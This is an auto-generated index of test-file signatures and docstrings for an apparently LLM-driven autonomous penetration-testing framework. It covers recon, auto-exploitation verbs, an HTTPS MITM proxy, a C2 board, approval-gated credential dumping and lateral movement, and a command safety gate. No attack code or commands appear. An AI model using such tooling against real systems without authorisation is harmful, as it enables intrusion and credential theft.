- `test_model_keepalive_tick_while_waiting` (line 152) `def test_model_keepalive_tick_while_waiting(tmp_path, monkeypatch)` - *A slow model call must announce that it is still being awaited.*
- `test_tool_calling_flag_honors_payload` (line 175) `def test_tool_calling_flag_honors_payload(tmp_path, monkeypatch)`
- `test_external_opencode_degrades_without_binary` (line 184) `def test_external_opencode_degrades_without_binary(monkeypatch)`
- `test_lazy_agent_command_session_lifecycle` (line 194) `def test_lazy_agent_command_session_lifecycle(tmp_path, monkeypatch)`
- `_executor` (line 85) `def _executor(command)`

**Methods:**
- `__init__` (line 26) `def __init__(self, script)`
- `create` (line 30) `def create(self)` - *Return the next scripted response, recording the request.*
- `create` (line 163) `def create(self)`

#### `test_lazy_engine.py`
**Path:** `tests/test_lazy_engine.py`
**File Doc:** *Lazy engine (LAZY-faithful) regression tests with stub executor.*

**Functions:**
- `_stub_executor` (line 11) `def _stub_executor(command)`
- `engine` (line 23) `def engine(tmp_path, monkeypatch)`
- `test_create_auto_scope_and_asset` (line 35) `def test_create_auto_scope_and_asset(engine)`
- `test_scope_strict_no_external_intents` (line 42) `def test_scope_strict_no_external_intents(engine)`
- `test_no_premature_done_goals_pending` (line 52) `def test_no_premature_done_goals_pending(engine)`
- `test_worker_aggregates_single_fact` (line 61) `def test_worker_aggregates_single_fact(engine)`
- `test_pause_resume` (line 67) `def test_pause_resume(engine)`
- `test_prove_goal_needs_reason_and_evidence` (line 77) `def test_prove_goal_needs_reason_and_evidence(engine)`
- `test_lazy_alias_surface` (line 87) `def test_lazy_alias_surface()`
- `test_delete_task_sweeps_only_its_store_files` (line 97) `def test_delete_task_sweeps_only_its_store_files(engine, tmp_path)` - *BDD: deleting a task removes its files and leaves siblings intact.*
- `test_delete_task_unknown_returns_empty` (line 111) `def test_delete_task_unknown_returns_empty(engine)` - *BDD: deleting an unknown task is a no-op, not an error.*

#### `test_lazy_evidence.py`
**Path:** `tests/test_lazy_evidence.py`
**File Doc:** *Traffic recorder trigram search and frozen evidence package export.  Pins two parity contracts: mid-token body search through the trigram FTS index (with in-place migration from the legacy tokenizer), and the hash-manifested evidence zip produced at terminal status.*

**Functions:**
- `test_trigram_search_finds_mid_token` (line 16) `def test_trigram_search_finds_mid_token(tmp_path)` - *A substring inside a token matches through the trigram index.*
- `test_legacy_fts_is_migrated_in_place` (line 34) `def test_legacy_fts_is_migrated_in_place(tmp_path)` - *A pre-trigram index is rebuilt so substring search keeps working.*
- `test_export_evidence_freezes_files_with_hashes` (line 53) `def test_export_evidence_freezes_files_with_hashes(tmp_path, monkeypatch)` - *The evidence zip carries a manifest whose hashes verify the files.*

#### `test_lazy_loop.py`
**Path:** `tests/test_lazy_loop.py`
**File Doc:** *Production loop fidelity tests: guard judge, findings, settlement, bridge.*

**Classes:**
- `_Smtp` (line 351) `class _Smtp`

**Functions:**
- `_patched_engine` (line 8) `def _patched_engine(tmp_path, monkeypatch)` - *Return an engine whose stores live entirely under tmp_path.*
- `test_settlement_prompt_variants` (line 18) `def test_settlement_prompt_variants()` - *BDD: wrap-up wording depends on agent and stop reason.*
- `test_intent_priority_claim_pause_resume` (line 31) `def test_intent_priority_claim_pause_resume(tmp_path, monkeypatch)` - *BDD: the frontier claims strictly by priority then id.*
- `test_intent_soft_and_hard_delete` (line 50) `def test_intent_soft_and_hard_delete(tmp_path, monkeypatch)` - *BDD: soft delete keeps outputs, hard delete cascades exclusives.*
- `test_guard_judge_parse_and_fail_policy` (line 73) `def test_guard_judge_parse_and_fail_policy(tmp_path, monkeypatch)` - *BDD: judge JSON is strict and LLM outages apply the fail policy.*
- `test_guard_judge_gates_when_enabled` (line 90) `def test_guard_judge_gates_when_enabled(tmp_path, monkeypatch)` - *BDD: with the judge on, unmatched commands follow the fail policy.*
- `test_guard_set_judge_persists_and_gates` (line 110) `def test_guard_set_judge_persists_and_gates(tmp_path, monkeypatch)` - *BDD: lazy_guard judge on persists the config and gates immediately.*
- `test_finding_evidence_version_and_report` (line 134) `def test_finding_evidence_version_and_report(tmp_path, monkeypatch)` - *BDD: evidence binding and report writes bump the version.*
- `test_skills_match_inject_and_prompt_context` (line 152) `def test_skills_match_inject_and_prompt_context(tmp_path, monkeypatch)` - *BDD: skills match by keyword, pin on the task and reach the prompt.*
- `test_custom_tools_run_and_loop_wiring` (line 177) `def test_custom_tools_run_and_loop_wiring(tmp_path, monkeypatch)` - *BDD: custom tools execute and surface as planner/worker intents.*
- `test_workspace_confined_io` (line 203) `def test_workspace_confined_io(tmp_path, monkeypatch)` - *BDD: workspace IO works inside the root and blocks traversal.*
- `test_selfupdate_check_and_apply` (line 226) `def test_selfupdate_check_and_apply(tmp_path, monkeypatch)` - *BDD: selfupdate fast-forwards a clean clone and refuses dirty ones.*
- `test_c2_board_bridge_upserts` (line 266) `def test_c2_board_bridge_upserts(tmp_path, monkeypatch)` - *BDD: loop tasks mirror into the C2 Kanban board without duplicates.*
- `test_report_export_md_csv_and_terminal_trigger` (line 289) `def test_report_export_md_csv_and_terminal_trigger(tmp_path, monkeypatch)` - *BDD: reports render to md/csv and a terminal run writes one.*
- `test_trigger_task_create_fires_once` (line 313) `def test_trigger_task_create_fires_once(tmp_path, monkeypatch)` - *BDD: the task_create trigger reports new tasks exactly once.*
- `test_notifier_channels_slack_email_file` (line 333) `def test_notifier_channels_slack_email_file(tmp_path, monkeypatch)` - *BDD: slack/email/file channels deliver with severity floors.*
- `test_task_status_notification_on_terminal` (line 398) `def test_task_status_notification_on_terminal(tmp_path, monkeypatch)` - *BDD: terminal tasks fan out a task_status event to channels.*
- `test_admission_queue_fifo_and_drain` (line 411) `def test_admission_queue_fifo_and_drain(tmp_path, monkeypatch)` - *BDD: capped engines queue tasks FIFO and drain them when slots free.*
- `test_build_prompt_context_bounded_with_digests` (line 436) `def test_build_prompt_context_bounded_with_digests(tmp_path, monkeypatch)` - *BDD: prompt context caps size and surfaces digests over raw facts.*
- `test_record_verdict_manual` (line 454) `def test_record_verdict_manual(tmp_path, monkeypatch)` - *BDD: an operator verdict is stored and fixed closes the finding.*
- `test_broadcast_rows_and_worker_traces` (line 477) `def test_broadcast_rows_and_worker_traces(tmp_path, monkeypatch)` - *BDD: the engine broadcast board and traces back the same graph.*
- `test_bridge_reads_engine_store_fixture` (line 504) `def test_bridge_reads_engine_store_fixture(tmp_path, monkeypatch)` - *BDD: the bridge reads one engine-shaped fixture without real sessions.*
- `test_delete_task_sweeps_store_files` (line 536) `def test_delete_task_sweeps_store_files(tmp_path, monkeypatch)` - *BDD: deleting a task removes its files and leaves siblings intact.*
- `test_lazy_command_set_registered` (line 549) `def test_lazy_command_set_registered()`
- `test_mcp_lazy_handlers_registered` (line 569) `def test_mcp_lazy_handlers_registered()`
- `test_mcp_lazy_tools_declared_for_every_handler` (line 579) `def test_mcp_lazy_tools_declared_for_every_handler()` - *BDD: every registered lazy handler is declared in list_tools.*
- `git` (line 232) `def git(cwd)`
- `fake_post` (line 345) `def fake_post(url, data, timeout)`
- `_is_hooks_url` (line 384) `def _is_hooks_url(url)`

**Methods:**
- `__init__` (line 352) `def __init__(self, host, port, timeout)`
- `__enter__` (line 355) `def __enter__(self)`
- `__exit__` (line 358) `def __exit__(self)`
- `starttls` (line 361) `def starttls(self)`
- `login` (line 364) `def login(self, user, password)`
- `send_message` (line 367) `def send_message(self, message)`

#### `test_lazy_orchestrator.py`
**Path:** `tests/test_lazy_orchestrator.py`
**File Doc:** *Orchestrator admin console: headless smoke and real persistence.  The app is driven through Textual's ``run_test`` pilot; configuration, LLM chain and guard edits use sandboxed stores so nothing touches the real sessions or payload.*

**Functions:**
- `sandbox` (line 16) `def sandbox(tmp_path, monkeypatch)` - *Sandbox the lazy store for every test in this module.*
- `test_orchestrator_config_saves_to_payload` (line 25) `def test_orchestrator_config_saves_to_payload(sandbox)` - *Config tab edits merge into the payload file without dropping keys.*
- `test_orchestrator_models_and_guard_actions` (line 51) `def test_orchestrator_models_and_guard_actions(sandbox)` - *Add/remove helpers round-trip through the real stores.*
- `test_orchestrator_now_shows_activity` (line 69) `def test_orchestrator_now_shows_activity(sandbox)` - *The Now pane tails the active task's activity stream.*
- `test_orchestrator_command_registered` (line 92) `def test_orchestrator_command_registered()`
- `payload_store` (line 99) `def payload_store(monkeypatch)` - *In-memory payload so orchestrator config writes stay sandboxed.*
- `test_stage_toggles_persist` (line 120) `def test_stage_toggles_persist(payload_store)` - *Stage enable/disable flags persist under orchestrator.stages.*
- `test_auto_verb_enable_disable_and_custom` (line 135) `def test_auto_verb_enable_disable_and_custom(payload_store)` - *Disabled verbs leave planning and execution; custom verbs join both.*
- `test_engine_respects_disabled_workers` (line 157) `def test_engine_respects_disabled_workers(payload_store, tmp_path, monkeypatch)` - *Disabling the workers stage pauses frontier execution.*
- `test_orchestrator_tables_render` (line 176) `def test_orchestrator_tables_render(payload_store)` - *Pipeline and Verbs tabs render one row per entry.*
- `_drive` (line 36) `def _drive()`
- `_drive` (line 81) `def _drive()`
- `_load` (line 103) `def _load(target)`
- `_save` (line 106) `def _save(data, target)`
- `_drive` (line 183) `def _drive()`

#### `test_lazy_parity.py`
**Path:** `tests/test_lazy_parity.py`
**File Doc:** *LAZY parity proof tests: every ported subsystem must behave, not just exist.  Covers the gate (intercept allow/deny/ask), global scope deny, evidence vault roundtrip, traffic exchange log, planner frontier + todos, goal lifecycle, LLM failover pool, and the ephemeral sonner-style toast path. Each test drives the real module used by the engage daemon and auto_loop.*

**Functions:**
- `test_gate_allows_benign_command` (line 50) `def test_gate_allows_benign_command()` - *A recon scan passes the safety gate.*
- `test_gate_denies_destructive_command` (line 56) `def test_gate_denies_destructive_command()` - *Filesystem wipes never reach execution.*
- `test_gate_ask_creates_decidable_approval` (line 62) `def test_gate_ask_creates_decidable_approval()` - *Credential dumping parks as ask and resolves via decide.*
- `test_gate_ask_expires_fail_closed` (line 73) `def test_gate_ask_expires_fail_closed()` - *Timed-out approvals leave the pending set (fail-closed).*
- `test_scope_blocks_protected_suffixes` (line 82) `def test_scope_blocks_protected_suffixes()` - *Global deny list mirrors LAZY asset-intercept parity.*
- `test_constraints_deny_wins` (line 89) `def test_constraints_deny_wins()` - *Payload deny entries block matching commands.*
- `test_evidence_roundtrip` (line 96) `def test_evidence_roundtrip(tmp_path)` - *Stored output comes back byte-identical under its hash.*
- `test_evidence_rejects_tampered_blob` (line 104) `def test_evidence_rejects_tampered_blob(tmp_path)` - *Flipping one byte fails the integrity check on read.*
- `test_evidence_gc_drops_unreferenced` (line 117) `def test_evidence_gc_drops_unreferenced(tmp_path)` - *Blobs nobody references past the grace period are collected.*
- `test_traffic_record_and_query` (line 128) `def test_traffic_record_and_query(tmp_path)` - *Each step exchange is queryable by host with its body.*
- `test_frontier_emits_then_dedupes` (line 138) `def test_frontier_emits_then_dedupes()` - *Refill emits untried intents; pop marks them tried.*
- `test_todos_gate_lateral_on_creds` (line 149) `def test_todos_gate_lateral_on_creds()` - *Lateral techniques wait until the creds step is done.*
- `test_goals_decompose_and_prove` (line 161) `def test_goals_decompose_and_prove()` - *Keyword objectives split into verifiable goals proven by evidence.*
- `test_pool_fails_over_in_rank_order` (line 172) `def test_pool_fails_over_in_rank_order()` - *A dead head member falls through to the next rank.*
- `test_pool_skips_unhealthy_member` (line 192) `def test_pool_skips_unhealthy_member()` - *Three strikes parks the member until backoff expires.*
- `test_pool_exhausted_when_all_fail` (line 214) `def test_pool_exhausted_when_all_fail()` - *Total outage raises instead of returning an empty string.*
- `test_pool_session_key_format` (line 227) `def test_pool_session_key_format()` - *Sticky session headers carry conv, role and index.*
- `test_ephemeral_toast_line_has_icon_and_duration` (line 233) `def test_ephemeral_toast_line_has_icon_and_duration()` - *Sonner-style lines reuse theme roles with per-level delays.*
- `test_ephemeral_render_consumes_cursor` (line 253) `def test_ephemeral_render_consumes_cursor(tmp_path)` - *Ephemeral render prints once; the shared cursor advances like render.*
- `test_ephemeral_flag_routing` (line 266) `def test_ephemeral_flag_routing()` - *The payload flag selects panel vs sonner-style rendering.*
- `test_render_ephemeral_helper` (line 273) `def test_render_ephemeral_helper(tmp_path)` - *One-shot helper mirrors render_toasts semantics.*
- `_write_events` (line 285) `def _write_events(path, records)`
- `test_bus_render_still_counts_budget` (line 292) `def test_bus_render_still_counts_budget(tmp_path)` - *The persistent panel path is untouched by the ephemeral addition.*
- `_fail` (line 176) `def _fail(prompt)`
- `_ok` (line 180) `def _ok(prompt)`
- `_flaky` (line 197) `def _flaky(prompt)`

#### `test_lazy_proxy.py`
**Path:** `tests/test_lazy_proxy.py`
**File Doc:** *Recorder proxy: CA, HTTP/HTTPS capture, engine ingestion, auto-binding.*

**Classes:**
- `_EchoHandler` (line 24) `class _EchoHandler(BaseHTTPRequestHandler)` - *Minimal upstream returning a JSON body.*

**Functions:**
- `_patched_engine` (line 15) `def _patched_engine(tmp_path, monkeypatch)`
- `_start_upstream` (line 39) `def _start_upstream(tls_context)`
- `_read_until` (line 47) `def _read_until(sock, marker, limit)`
- `test_ca_and_leaf_verify` (line 57) `def test_ca_and_leaf_verify(tmp_path)` - *BDD: generated leaves chain to the CA and cover the host name.*
- `test_http_capture_records_exchange` (line 75) `def test_http_capture_records_exchange(tmp_path)` - *BDD: a proxied HTTP GET lands in the recorder with bodies.*
- `test_https_mitm_capture` (line 100) `def test_https_mitm_capture(tmp_path)` - *BDD: CONNECT tunnels are terminated and recorded end to end.*
- `test_env_for_ca_exports_trust` (line 138) `def test_env_for_ca_exports_trust(tmp_path)` - *BDD: the trust environment covers curl, requests and node.*
- `test_engine_ingests_recorder_rows` (line 148) `def test_engine_ingests_recorder_rows(tmp_path, monkeypatch)` - *BDD: round ingestion mirrors recorder rows into the task log.*
- `test_writeback_auto_binds_recent_traffic` (line 176) `def test_writeback_auto_binds_recent_traffic(tmp_path, monkeypatch)` - *BDD: a fresh finding carries the latest exchanges as evidence.*
- `test_proxy_status_and_stop` (line 198) `def test_proxy_status_and_stop(tmp_path)` - *BDD: status reports the CA and exchanges; stop is idempotent.*
- `test_status_declares_https_mitm` (line 211) `def test_status_declares_https_mitm(tmp_path)` - *BDD: status states HTTP and HTTPS capture via MITM.*
- `test_install_ca_trust_prompts_only_when_needed` (line 223) `def test_install_ca_trust_prompts_only_when_needed(tmp_path, monkeypatch)` - *BDD: the anchor is written once; later starts skip sudo entirely.*
- `test_recorder_body_search_and_archive_roundtrip` (line 254) `def test_recorder_body_search_and_archive_roundtrip(tmp_path)` - *BDD: FTS body search and archive export/import preserve traffic.*
- `test_recorder_gc_removes_old_exchanges` (line 282) `def test_recorder_gc_removes_old_exchanges(tmp_path, monkeypatch)` - *BDD: gc removes exchanges older than the cut-off and keeps fresh ones.*
- `test_task_scoped_query_and_export` (line 300) `def test_task_scoped_query_and_export(tmp_path)` - *BDD: per-task archives only carry that task's exchanges.*
- `test_engine_exports_task_traffic_and_gc_runs_once` (line 317) `def test_engine_exports_task_traffic_and_gc_runs_once(tmp_path, monkeypatch)` - *BDD: terminal task export plus interval-gated retention sweep.*
- `test_recorder_inbox_auto_import` (line 344) `def test_recorder_inbox_auto_import(tmp_path, monkeypatch)` - *BDD: run_round imports inbox archives once and moves them aside.*
- `test_install_ca_nss_with_fake_profiles` (line 371) `def test_install_ca_nss_with_fake_profiles(tmp_path, monkeypatch)` - *BDD: NSS install runs certutil per profile and skips trusted ones.*
- `test_body_ranged_reads` (line 411) `def test_body_ranged_reads(tmp_path)` - *BDD: blob-style ranged reads page through stored bodies.*
- `test_upstream_chaining_captures_in_both` (line 434) `def test_upstream_chaining_captures_in_both(tmp_path)` - *BDD: a chained proxy forwards through the upstream and both record.*
- `test_websocket_passthrough_recorded` (line 459) `def test_websocket_passthrough_recorded(tmp_path)` - *BDD: a WebSocket upgrade tunnels raw bytes and records the handshake.*
- `test_writeback_auto_binds_body_hits` (line 509) `def test_writeback_auto_binds_body_hits(tmp_path, monkeypatch)` - *BDD: finding evidence auto-binds proxy exchanges matching its text.*
- `runner` (line 236) `def runner(argv)`
- `runner` (line 387) `def runner(argv)`
- `_serve` (line 469) `def _serve()`

**Methods:**
- `do_GET` (line 27) `def do_GET(self)`
- `log_message` (line 35) `def log_message(self, fmt)`

#### `test_lazy_runner.py`
**Path:** `tests/test_lazy_runner.py`
**File Doc:** *Shared loop runner, monitor surface and store-fidelity regressions.  Covers the one-path contract between ``lazy_loop`` and ``auto_loop`` (modules/lazy_runner), the attach/embedded monitor command surface, and the store fixes that keep the engine auditable across processes: per-task asset gate on insert, judge config persistence, event-driven approval wake-ups, archive restore parity and detached bash fallback.*

**Classes:**
- `_FakeEngine` (line 212) `class _FakeEngine`
- `_Shell` (line 244) `class _Shell`
- `_Stub` (line 582) `class _Stub`
- `_DummyHandler` (line 599) `class _DummyHandler`
- `_SlowEngine` (line 648) `class _SlowEngine`
- `_Engine` (line 699) `class _Engine`
- `_Completions` (line 737) `class _Completions`
- `_StuckEngine` (line 816) `class _StuckEngine`
- `_FakeEngine` (line 855) `class _FakeEngine`
- `_Shell` (line 1151) `class _Shell`
- `_BadCompletions` (line 1188) `class _BadCompletions`
- `_GoodCompletions` (line 1192) `class _GoodCompletions`
- `_Shell` (line 1312) `class _Shell`
- `_Proxy` (line 1354) `class _Proxy`
- `_Shell` (line 1402) `class _Shell`
- `_Shell` (line 1444) `class _Shell`
- `_FakeProc` (line 1478) `class _FakeProc`
- `_FakeProc` (line 1508) `class _FakeProc`

**Functions:**
- `store` (line 21) `def store(tmp_path, monkeypatch)` - *Sandbox the lazy store for every test in this module.*
- `test_parse_loop_line_flags` (line 30) `def test_parse_loop_line_flags()`
- `test_parse_loop_line_rejects_bad_input` (line 42) `def test_parse_loop_line_rejects_bad_input()`
- `test_config_clamps_operating_range` (line 50) `def test_config_clamps_operating_range()`
- `test_loop_commands_share_the_runner` (line 57) `def test_loop_commands_share_the_runner()`
- `test_guard_judge_survives_rule_changes` (line 67) `def test_guard_judge_survives_rule_changes(store)`
- `test_custom_tool_trigger_matches_services` (line 79) `def test_custom_tool_trigger_matches_services(store)`
- `test_intercept_wait_wakes_on_decide` (line 90) `def test_intercept_wait_wakes_on_decide(store)`
- `test_archive_restore_keeps_edges_anchors_scope` (line 110) `def test_archive_restore_keeps_edges_anchors_scope(store)`
- `test_asset_insert_enforces_task_gate` (line 133) `def test_asset_insert_enforces_task_gate(store)`
- `test_worker_bash_fallback_uses_streaming_runner` (line 143) `def test_worker_bash_fallback_uses_streaming_runner(store, monkeypatch)`
- `test_terminal_guard_is_safe_without_tty` (line 172) `def test_terminal_guard_is_safe_without_tty()`
- `test_autonomous_mode_flag_and_input_restore` (line 181) `def test_autonomous_mode_flag_and_input_restore(monkeypatch)`
- `test_automsf_intent_needs_a_module_path` (line 196) `def test_automsf_intent_needs_a_module_path()`
- `test_run_loop_drives_the_engine_and_reports` (line 204) `def test_run_loop_drives_the_engine_and_reports(store, monkeypatch)`
- `test_shell_verb_observer_print_is_recursion_safe` (line 240) `def test_shell_verb_observer_print_is_recursion_safe()` - *Regression: observer printing during stdout redirect must not loop.*
- `test_terminal_stream_bypasses_stdout_redirect` (line 259) `def test_terminal_stream_bypasses_stdout_redirect(monkeypatch)`
- `test_judge_prompt_is_versioned_untrusted_json` (line 276) `def test_judge_prompt_is_versioned_untrusted_json(store, monkeypatch)`
- `test_worker_resumes_skipping_executed_steps` (line 293) `def test_worker_resumes_skipping_executed_steps(store)`
- `test_run_wrapup_records_fact_on_exhaustion` (line 319) `def test_run_wrapup_records_fact_on_exhaustion(store, monkeypatch)`
- `test_finding_report_drafted_by_reporter_agent` (line 334) `def test_finding_report_drafted_by_reporter_agent(store, monkeypatch)`
- `_seed_cold_facts` (line 353) `def _seed_cold_facts(graph, loop, count)` - *Create stale facts under one parent so the compactor can group them.*
- `_prime_cold` (line 363) `def _prime_cold(compactor, loop)` - *Stamp every structural-cold node as cold for exactly R rounds.*
- `test_cold_digest_applies_background_body` (line 372) `def test_cold_digest_applies_background_body(store)`
- `test_cold_background_disabled_requests_nothing` (line 394) `def test_cold_background_disabled_requests_nothing(store, monkeypatch)`
- `test_cold_background_worker_caches_compressed_body` (line 412) `def test_cold_background_worker_caches_compressed_body(store, monkeypatch)`
- `test_cross_task_fleet_operations` (line 440) `def test_cross_task_fleet_operations(store)`
- `test_llm_health_persists_across_registries` (line 474) `def test_llm_health_persists_across_registries(tmp_path, monkeypatch)`
- `test_llm_pool_rotates_equal_priority_heads` (line 488) `def test_llm_pool_rotates_equal_priority_heads(store, monkeypatch)`
- `test_llm_pool_connect_retry_before_failover` (line 507) `def test_llm_pool_connect_retry_before_failover(store, monkeypatch)`
- `test_broadcast_events_cursor_resume` (line 528) `def test_broadcast_events_cursor_resume(store)`
- `test_loop_broadcast_sse_route_declared` (line 547) `def test_loop_broadcast_sse_route_declared()`
- `test_noa_archive_written_when_enabled` (line 556) `def test_noa_archive_written_when_enabled(store, monkeypatch)`
- `test_proxy_safe_send_error_swallows_dead_client` (line 576) `def test_proxy_safe_send_error_swallows_dead_client()` - *Regression: a gone client must not raise from the 502 path.*
- `test_proxy_server_silences_connection_noise` (line 593) `def test_proxy_server_silences_connection_noise()` - *Regression: connection errors log nothing instead of tracebacks.*
- `test_proxy_handler_only_uses_safe_error_sender` (line 613) `def test_proxy_handler_only_uses_safe_error_sender()`
- `test_progress_emit_never_feeds_stdout_redirect` (line 619) `def test_progress_emit_never_feeds_stdout_redirect(capsys)` - *Regression: panel emits must not land in the runner's redirect.

The orchestrator thread redirects ``sys.stdout`` globally; if the
progress console resolved ``sys.stdout`` at print time, every emit
would loop back into the transcript queue forever (the invisible
hung ``auto_loop``).*
- `test_run_with_progress_finishes_and_streams` (line 641) `def test_run_with_progress_finishes_and_streams(store, capsys)` - *Regression: a slow orchestrator must not hang the runner thread.*
- `test_format_activity_line` (line 685) `def test_format_activity_line()`
- `test_run_with_progress_streams_activity_events` (line 692) `def test_run_with_progress_streams_activity_events(store, capsys)` - *Every engine activity record reaches the panel as one line.*
- `test_steer_delivered_to_agent_as_operator_message` (line 726) `def test_steer_delivered_to_agent_as_operator_message(store, monkeypatch)` - *Steer must reach the model as a user turn and be cleared once.*
- `test_steer_cleared_after_delivery` (line 770) `def test_steer_cleared_after_delivery(store)`
- `test_thread_stdout_router_routes_by_thread` (line 781) `def test_thread_stdout_router_routes_by_thread(capsys)` - *Main thread keeps the real stream; worker threads only spool.*
- `test_run_with_progress_restores_stdout_on_cancel` (line 806) `def test_run_with_progress_restores_stdout_on_cancel(store, monkeypatch, capsys)` - *Regression: Ctrl+C must not leave sys.stdout hijacked by a zombie.*
- `test_run_loop_treats_systemexit_as_cancel` (line 849) `def test_run_loop_treats_systemexit_as_cancel(store, monkeypatch)` - *cmd2 raises SystemExit on SIGINT; the loop must cancel, not crash.*
- `test_wake_bus_signals_and_suppresses` (line 878) `def test_wake_bus_signals_and_suppresses(store)` - *Meaningful events wake the engine; stream noise does not.*
- `test_engine_wake_preempts_heartbeat` (line 892) `def test_engine_wake_preempts_heartbeat(store)` - *An operator event must trigger the next round, not the 30s wait.*
- `test_engine_heartbeat_replans_when_idle` (line 927) `def test_engine_heartbeat_replans_when_idle(store)` - *With no events the engine waits for the heartbeat, then re-plans.*
- `test_agent_background_jobs_and_output` (line 951) `def test_agent_background_jobs_and_output(store)` - *Background jobs are tracked, queryable and folded at finish.*
- `test_agent_persistent_shell_session` (line 999) `def test_agent_persistent_shell_session(store)` - *shell_open/shell_send keep state across calls and close cleanly.*
- `test_reporter_runs_background_and_applies` (line 1037) `def test_reporter_runs_background_and_applies(store, monkeypatch)` - *Background reporter drafts commit on the next round, not inline.*
- `test_evidence_ranged_read_and_roles` (line 1068) `def test_evidence_ranged_read_and_roles(store)` - *Evidence pages by byte ranges; binding accepts ARTEX roles.*
- `test_finalize_parks_open_intents` (line 1100) `def test_finalize_parks_open_intents(store)` - *The final planner round stops the frontier instead of adding work.*
- `test_agent_prompt_includes_skills_block` (line 1121) `def test_agent_prompt_includes_skills_block(store, monkeypatch)` - *Pinned/matched skills reach the agentic system prompt.*
- `test_auto_verb_overrides_payload_target_for_the_run` (line 1145) `def test_auto_verb_overrides_payload_target_for_the_run()` - *auto_pwn and friends must bind rhost to the intent target, not payload.*
- `test_round_fuses_intel_into_world_model` (line 1167) `def test_round_fuses_intel_into_world_model(store, monkeypatch)` - *Loop artefacts reach the world model through the bridge sync.*
- `test_agentic_falls_back_to_next_member` (line 1180) `def test_agentic_falls_back_to_next_member(store, monkeypatch)` - *A 404/model error on one member retries the next, not the shell path.*
- `test_bootstrap_passes_target_to_auto_populate` (line 1234) `def test_bootstrap_passes_target_to_auto_populate(tmp_path, monkeypatch)` - *Bootstrap must ingest the loop target's XML, not the payload rhost.*
- `test_auto_populate_verb_carries_target` (line 1252) `def test_auto_populate_verb_carries_target()`
- `test_worker_llm_steps_filter_sudo` (line 1259) `def test_worker_llm_steps_filter_sudo(store, monkeypatch)` - *Unattended sudo proposals are dropped before they burn a step.*
- `test_pyautomate_filters_to_requested_target` (line 1289) `def test_pyautomate_filters_to_requested_target(tmp_path, monkeypatch)` - *pwntomate must only process the requested target's XML.*
- `test_lazy_addon_positional_target_overrides_rhost` (line 1305) `def test_lazy_addon_positional_target_overrides_rhost(monkeypatch)` - *lazy_addon run <name> <target> must use the positional target.*
- `test_shutdown_loop_runtime_cleans_everything` (line 1328) `def test_shutdown_loop_runtime_cleans_everything(store, monkeypatch)` - *Exit teardown kills children, closes shells, pauses tasks, stops proxy.*
- `test_do_qa_runs_shutdown_and_dedupes_killall` (line 1367) `def test_do_qa_runs_shutdown_and_dedupes_killall(monkeypatch)`
- `test_lazynmap_routing_and_steps` (line 1389) `def test_lazynmap_routing_and_steps(store)` - *Recon steps route through lazynmap when a shell is bound.*
- `test_lazynmap_overrides_payload_rhost_for_scope` (line 1437) `def test_lazynmap_overrides_payload_rhost_for_scope(store)` - *lazynmap must run with rhost bound to the explicit target.*
- `test_run_tee_interactive_keeps_operator_terminal` (line 1462) `def test_run_tee_interactive_keeps_operator_terminal(monkeypatch)` - *Interactive run_tee children keep stdin and the operator session.

Regression pin: sudo prompts need the controlling terminal, so the
interactive path must not setsid the child nor drop its stdin.*
- `test_run_tee_loop_context_detaches_child` (line 1496) `def test_run_tee_loop_context_detaches_child(monkeypatch)` - *Detached loop children drop stdin and start their own session.*
- `test_run_tee_stdin_devnull_in_loop_context` (line 1530) `def test_run_tee_stdin_devnull_in_loop_context()` - *Loop-context run_tee children must not read the operator terminal.*
- `test_run_tee_thread_timeout_kills_child` (line 1545) `def test_run_tee_thread_timeout_kills_child()` - *A bounded run_tee must self-kill the child process group.*
- `test_plausibility_filter_drops_hallucinated_flags` (line 1566) `def test_plausibility_filter_drops_hallucinated_flags(store, monkeypatch)` - *nmap --block style hallucinations never reach execution.*
- `test_dev_smoke_tools_run_green` (line 1600) `def test_dev_smoke_tools_run_green()` - *The reusable harnesses in modules/tools must keep passing.*
- `test_lazy_view_command_registered` (line 1610) `def test_lazy_view_command_registered()`
- `_wait` (line 97) `def _wait()`
- `_fake_streaming` (line 150) `def _fake_streaming(command, on_output, timeout_sec)`
- `_observer` (line 250) `def _observer(line)`
- `_complete` (line 281) `def _complete(self, prompt, max_tokens)`
- `_exec` (line 308) `def _exec(command)`
- `scripted` (line 497) `def scripted(model, prompt, max_tokens)`
- `flaky` (line 516) `def flaky(model, prompt, max_tokens)`
- `_worker` (line 793) `def _worker()`
- `_interrupt` (line 833) `def _interrupt()`
- `_exit` (line 868) `def _exit()`
- `_round` (line 905) `def _round(task_id_arg, workers, executor)`
- `_round` (line 938) `def _round(task_id_arg, workers, executor)`
- `_resolve` (line 1209) `def _resolve(exclude)`
- `_executor` (line 1244) `def _executor(command)`
- `_fake_run` (line 1315) `def _fake_run(command)`
- `_fake_shutdown` (line 1375) `def _fake_shutdown(reason)`

**Methods:**
- `__init__` (line 215) `def __init__(self)`
- `bind_shell` (line 218) `def bind_shell(self, shell)`
- `set_concurrency` (line 221) `def set_concurrency(self, value)`
- `orchestrate` (line 224) `def orchestrate(self)`
- `onecmd_plus_hooks` (line 245) `def onecmd_plus_hooks(self, command)`
- `send_error` (line 585) `def send_error(self, code, message)`
- `__init__` (line 600) `def __init__(self)`
- `__init__` (line 651) `def __init__(self)`
- `bind_shell` (line 655) `def bind_shell(self, shell)`
- `set_concurrency` (line 658) `def set_concurrency(self, value)`
- `orchestrate` (line 661) `def orchestrate(self)`
- `__init__` (line 702) `def __init__(self)`
- `bind_shell` (line 706) `def bind_shell(self, shell)`
- `set_concurrency` (line 709) `def set_concurrency(self, value)`
- `orchestrate` (line 712) `def orchestrate(self)`
- `create` (line 738) `def create(self)`
- `__init__` (line 819) `def __init__(self)`
- `bind_shell` (line 823) `def bind_shell(self, shell)`
- `set_concurrency` (line 826) `def set_concurrency(self, value)`
- `orchestrate` (line 829) `def orchestrate(self)`
- `__init__` (line 858) `def __init__(self)`
- `bind_shell` (line 862) `def bind_shell(self, shell)`
- `set_concurrency` (line 865) `def set_concurrency(self, value)`
- `__init__` (line 1152) `def __init__(self)`
- `onecmd_plus_hooks` (line 1155) `def onecmd_plus_hooks(self, command)`
- `create` (line 1189) `def create(self)`
- `__init__` (line 1193) `def __init__(self)`
- `create` (line 1196) `def create(self)`
- `stop` (line 1355) `def stop(self)`
- `onecmd_plus_hooks` (line 1403) `def onecmd_plus_hooks(self, command)`
- `__init__` (line 1445) `def __init__(self)`
- `onecmd_plus_hooks` (line 1448) `def onecmd_plus_hooks(self, command)`
- `__init__` (line 1479) `def __init__(self)`
- `wait` (line 1485) `def wait(self, timeout)`
- `__init__` (line 1509) `def __init__(self)`
- `wait` (line 1515) `def wait(self, timeout)`

#### `test_lazy_streaming.py`
